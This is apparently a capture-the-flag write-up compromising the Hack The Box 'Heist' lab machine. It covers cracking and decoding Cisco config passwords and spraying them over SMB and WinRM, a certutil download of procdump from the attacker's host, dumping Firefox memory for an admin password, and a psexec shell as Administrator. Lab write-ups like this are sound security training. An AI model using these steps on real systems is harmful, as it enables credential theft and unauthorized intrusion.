


Nmap scan reveals 80, 135, 445, 5985 and 49669 open:
```
% nmap -p `cat logs/tcp-simple.nmap | grep open | cut -d/ -f1 | tr "\n" "," | sed "s/,$//"` -sC -sV -Pn -oA logs/nmap-tcpscripts $IP
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-01 19:26 AEST
Nmap scan report for 10.10.10.149
Host is up (0.041s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-08-01T09:27:21
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.92 seconds

```

Anonymous smb login disabled:
```
% smbclient  -L \\\\$IP\\
Enter WORKGROUP\lo's password:
session setup failed: NT_STATUS_ACCESS_DENIED
```

The website on port 80 has a user describing an issue to a support admin and a link to an attachment:


The attachment (http://10.10.10.149/attachments/config.txt) contains a cisco router config file: 
```
version 12.2
no service pad
service password-encryption
!
isdn switch-type basic-5ess
!
hostname ios-1
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
!
ip ssh authentication-retries 5
ip ssh version 2
!
!
router bgp 100
 synchronization
 bgp log-neighbor-changes
 bgp dampening
 network 192.168.0.0 mask 300.255.255.0
 timers bgp 3 9
 redistribute connected
!
ip classless
ip route 0.0.0.0 0.0.0.0 192.168.0.1
!
!
access-list 101 permit ip any any
dialer-list 1 protocol ip list 101
!
no ip http server
no ip http secure-server
!
line vty 0 4
 session-timeout 600
 authorization exec SSH
 transport input ssh
```

We can crack the secret to begin with using john. We first create a hash.txt file with the following content:
```
enabled_secret:$1$pdQG$o8nrSzsGXeaduXrjlvKc91
```
and run john on it with rockyou.txt as the wordlist:
```
% john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt                               ~/oscp/notes/htb/heist
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stealth1agent    (enable_secret)
1g 0:00:00:13 DONE (2021-08-01 19:35) 0.07639g/s 267780p/s 267780c/s 267780C/s steaua17..steall3
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The Type 7 cisco passwords are actually decryptable and can be decrypted using the following website for example https://davidbombal.com/cisco-type-7-password-decryption/.

We get the following decrypted hashes:
```
0242114B0E143F015F5D1E161713:$uperP@ssword
02375012182C1A1D751618034F36415408:Q4)sJu\Y8qz*A3?d
```

We now have 3 passwords:
```
stealth1agent
$uperP@ssword
Q4)sJu\Y8qz*A3?d
```

The homepage also hints at a user being created on the server for the "Hazard" user:


We can try the passwords we cracked and attempt to use those and find that the credentials `Hazard:stealth1agent` are valid:
```
% crackmapexec smb 10.10.10.149 -u "Hazard" -p "stealth1agent"
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Hazard:stealth1agent
```

We have access to smb but can't access any shares apart from the IPC share:
```
% smbclient -U "Hazard" -L \\\\$IP\\
Enter WORKGROUP\Hazard's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.

do_connect: Connection to 10.10.10.149 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
% smbclient -U "Hazard" \\\\$IP\\C$
Enter WORKGROUP\Hazard's password:
tree connect failed: NT_STATUS_ACCESS_DENIED
[1] % smbclient -U "Hazard" \\\\$IP\\ADMIN$
Enter WORKGROUP\Hazard's password:
tree connect failed: NT_STATUS_ACCESS_DENIED
```

We run enum4linux and identify a number of users:
```
% cat logs/enum4linux.log | grep SUPPORT
S-1-5-21-4254423774-1266059056-3197185112-500 SUPPORTDESK\Administrator (Local User)
S-1-5-21-4254423774-1266059056-3197185112-501 SUPPORTDESK\Guest (Local User)
S-1-5-21-4254423774-1266059056-3197185112-503 SUPPORTDESK\DefaultAccount (Local User)
S-1-5-21-4254423774-1266059056-3197185112-504 SUPPORTDESK\WDAGUtilityAccount (Local User)
S-1-5-21-4254423774-1266059056-3197185112-513 SUPPORTDESK\None (Domain Group)
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (Local User)
S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (Local User)
S-1-5-21-4254423774-1266059056-3197185112-1012 SUPPORTDESK\Chase (Local User)
S-1-5-21-4254423774-1266059056-3197185112-1013 SUPPORTDESK\Jason (Local User)
```

We try to login to those accounts using the password we cracked previously and find that one of the passwords works for the Chase user: 
```
% crackmapexec smb 10.10.10.149 -u "Chase" -p "Q4)sJu\Y8qz*A3?d"
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d
```

We can also test if we have access to winrm using this account and find that we do:
```
% crackmapexec winrm 10.10.10.149 -u "Chase" -p "Q4)sJu\Y8qz*A3?d"
WINRM       10.10.10.149    5985   NONE             [*] None (name:10.10.10.149) (domain:None)
WINRM       10.10.10.149    5985   NONE             [*] http://10.10.10.149:5985/wsman
WINRM       10.10.10.149    5985   NONE             [+] None\Chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)
```

We can use evil-rm to get a shell as the Chase user:
```
% docker run --rm -ti --name evil-winrm oscarakaelvis/evil-winrm -i $IP -u "Chase" -p "Q4)sJu\Y8qz*A3?d"

Evil-WinRM shell v3.0

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Chase\Documents> ls


    Directory: C:\Users\Chase\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         8/1/2021   2:15 AM      304585033 firefox.exe_210801_021538.dmp
-a----         8/1/2021   2:07 AM         401288 procdump64.exe


*Evil-WinRM* PS C:\Users\Chase\Documents> cd "C:/Users/Chase/Desktop/"
*Evil-WinRM* PS C:\Users\Chase\Desktop> ls


    Directory: C:\Users\Chase\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/22/2019   9:08 AM            121 todo.txt
-a----        4/22/2019   9:07 AM             32 user.txt


*Evil-WinRM* PS C:\Users\Chase\Desktop> cat user.txt
a127daef77ab6d9d92008653295f59c4
```

We start doing some recon and identify that firefox is running which is unexpected for a boot2root vm:
```
*Evil-WinRM* PS C:\Users\Chase\Documents> Get-process | where-object { $_.ProcessName -match "firefox" }

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    386      28    22008     308200       0.77   5836   1 firefox
    355      25    16364     297280       0.19   6428   1 firefox
   1034      62   120348     475508       8.11   6592   1 firefox
    347      19     9792     286360       0.38   6816   1 firefox
    401      33    28884     332020       1.86   6932   1 firefox
```

Since firefox is running we can try dumping the process and looking for interesting strings (ie. user credentials, paths, cookies, etc). To do this, we need to download procdump (https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from windows sysinternals and put it on the server.

We can use a python web server to download procdump from our host using certutil:
```
*Evil-WinRM* PS C:\Users\Chase\Documents> certutil -urlcache -split -f http://10.10.14.23:8888/procdump64.exe
****  Online  ****
  000000  ...
  061f88
CertUtil: -URLCache command completed successfully.
*Evil-WinRM* PS C:\Users\Chase\Documents> ls


    Directory: C:\Users\Chase\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         8/1/2021   4:56 PM         401288 procdump64.exe
```
_Note: Its also possible to use evil-winrm to upload a file, however I'm using docker and haven't mapped a volume so decided to use certutil instead._

Using a quick powershell script, we can dump all firefox processes:
```
*Evil-WinRM* PS C:\Users\Chase\Documents> Get-process | where-object { $_.ProcessName -match "firefox" } | foreach-object { ./procdump64.exe -ma $_.Id -accepteula }

ProcDump v10.1 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[17:01:46] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_210801_170146.dmp
[17:01:46] Dump 1 writing: Estimated dump file size is 309 MB.
[17:01:48] Dump 1 complete: 309 MB written in 2.6 seconds
[17:01:48] Dump count reached.


ProcDump v10.1 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[17:01:48] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_210801_170148.dmp
[17:01:49] Dump 1 writing: Estimated dump file size is 298 MB.
[17:01:49] Dump 1 complete: 298 MB written in 0.8 seconds
[17:01:50] Dump count reached.


ProcDump v10.1 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[17:01:50] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_210801_170150.dmp
[17:01:50] Dump 1 writing: Estimated dump file size is 473 MB.
[17:01:54] Dump 1 complete: 473 MB written in 4.0 seconds
[17:01:54] Dump count reached.


ProcDump v10.1 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[17:01:54] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_210801_170154.dmp
[17:01:54] Dump 1 writing: Estimated dump file size is 287 MB.
[17:01:56] Dump 1 complete: 287 MB written in 1.7 seconds
[17:01:56] Dump count reached.


ProcDump v10.1 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[17:01:56] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_210801_170156.dmp
[17:01:56] Dump 1 writing: Estimated dump file size is 332 MB.
[17:01:58] Dump 1 complete: 333 MB written in 2.2 seconds
[17:01:59] Dump count reached.

*Evil-WinRM* PS C:\Users\Chase\Documents> ls


    Directory: C:\Users\Chase\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         8/1/2021   5:01 PM      315768147 firefox.exe_210801_170146.dmp
-a----         8/1/2021   5:01 PM      304572449 firefox.exe_210801_170148.dmp
-a----         8/1/2021   5:01 PM      483720505 firefox.exe_210801_170150.dmp
-a----         8/1/2021   5:01 PM      293288763 firefox.exe_210801_170154.dmp
-a----         8/1/2021   5:01 PM      340048246 firefox.exe_210801_170156.dmp
-a----         8/1/2021   4:56 PM         401288 procdump64.exe

```

We can then download those onto our host and look for interesting stuff in the dumps.
Evil-winrm has a helper command to download files (ie. `download <filename>`) which can use to download our files.

Tried grepping for different user names based on previous recon, did not identify anything. Ended up searching for SUPPORTDESK and looking for strings near it using `-A 10` (ie. 10 strings after a match) and found credentials for the admin@support.htb account:
```
root@7503d1b16b8c:/opt# strings firefox.exe_210801_021538.dmp  | grep SUPPORTDESK -A 10
COMPUTERNAME=SUPPORTDESK
TMP=C:\Users\Chase\AppData\Local\Temp
TEMP=C:\Users\Chase\AppData\Local\Temp
HOMEPATH=\Windows\system32
ComSpec=C:\Windows\system32\cmd.exe
PROCESSOR_ARCHITECTURE=AMD64
APPDATA=C:\Users\Chase\AppData\Roaming
ProgramW6432=C:\Program Files
ProgramData=C:\ProgramData
ALLUSERSPROFILE=C:\ProgramData
ProgramFiles=C:\Program Files
--
        USERDOMAIN=SUPPORTDESK
USERNAME=Chase
windir=C:\Windows
__PSLockdownPolicy=1
Xw<,
pz<,
`{<,
`{<,
pz<,
@}<,
P|<,
--
AIN=SUPPORTDESK
USERNA


abcdefghijklmnopqrstuvwxyz
ABCDEFGHIJKLMNOPQRSTUVWXYZ
ALLUSERSPROFILE=C:\ProgramData
APPDATA=C:\Users\Chase\AppData\Roaming
CommonProgramFiles=C:\Program Files\Common Files
CommonProgramFiles(x86)=C:\Program Files (x86)\Common Files
--
COMPUTERNAME=SUPPORTDESK
ComSpec=C:\Windows\system32\cmd.exe
DriverData=C:\Windows\System32\Drivers\DriverData
HOMEDRIVE=C:
HOMEPATH=\Windows\system32
LOCALAPPDATA=C:\Users\Chase\AppData\Local
MOZ_CRASHREPORTER_DATA_DIRECTORY=C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Crash Reports
MOZ_CRASHREPORTER_EVENTS_DIRECTORY=C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Crash Reports\events
MOZ_CRASHREPORTER_PING_DIRECTORY=C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Pending Pings
MOZ_CRASHREPORTER_RESTART_ARG_0=C:\Program Files\Mozilla Firefox\firefox.exe
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
--
USERDOMAIN=SUPPORTDESK
USERNAME=Chase
USERPROFILE=C:\Users\Chase
windir=C:\Windows
__PSLockdownPolicy=1
0A)3
@B)3
0B)3
 B)3
`B)3
pB)3
```

We exctract the password and find that it's valid for the administrator account:
```
# MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=

% crackmapexec winrm 10.10.10.149 -u "Administrator" -p '4dD!5}x/re8]FBuZ'
WINRM       10.10.10.149    5985   NONE             [*] None (name:10.10.10.149) (domain:None)
WINRM       10.10.10.149    5985   NONE             [*] http://10.10.10.149:5985/wsman
WINRM       10.10.10.149    5985   NONE             [+] None\Administrator:4dD!5}x/re8]FBuZ (Pwn3d!)
```

And we are now root and can login to the box:
```
% psexec.py support.htb/Administrator:4dD\!5}x/re8]FBuZ@$IP
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.149.....
[*] Found writable share ADMIN$
[*] Uploading file MsHQRGQR.exe
[*] Opening SVCManager on 10.10.10.149.....
[*] Creating service PJfX on 10.10.10.149.....
[*] Starting service PJfX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.437]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt
50dfa3c6bfd20e2e0d071b073d766897
```

